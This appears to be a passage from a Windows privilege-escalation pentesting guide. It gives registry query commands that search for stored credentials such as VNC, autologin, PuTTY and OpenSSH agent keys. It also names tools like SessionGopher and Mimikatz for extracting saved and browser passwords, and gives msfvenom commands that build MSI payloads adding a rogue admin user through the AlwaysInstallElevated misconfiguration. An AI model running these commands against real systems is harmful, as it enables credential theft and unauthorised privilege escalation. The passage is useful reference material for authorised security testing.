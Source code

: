 #### Other possible registry keys with credentials

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" #Autologin
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s #Check the values saved in each session, user/password could be there
reg query "HKCU\Software\OpenSSH\Agent\Key"

# Search for passwords inside all the registry 
reg query HKLM /f password /t REG_SZ /s #Look for registries that contains "password"
reg query HKCU /f password /t REG_SZ /s #Look for registries that contains "password"
```

[Extract openssh keys from registry.](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

The tool [SessionGopher](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames** and **passwords** of several tools that save this data in clear text \(PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP\)

```text
Invoke-SessionGopher -Thorough
```

### Browsers History

You should check for dbs where passwords from **Chrome or Firefox** are stored.  
Also check for the history, bookmarks and favourites of the browsers so maybe some **passwords are** stored there.

Tools to extract passwords from browsers:

* Mimikatz: `dpapi::chrome`
* [**SharpWeb**](https://github.com/djhohnstein/SharpWeb)\*\*\*\*

## AlwaysInstallElevated

**If** these 2 registers are **enabled** \(value is **0x1**\), then users of any privilege can **install** \(execute\) **`*.msi`** files as NT AUTHORITY\**SYSTEM**.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit payloads

```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
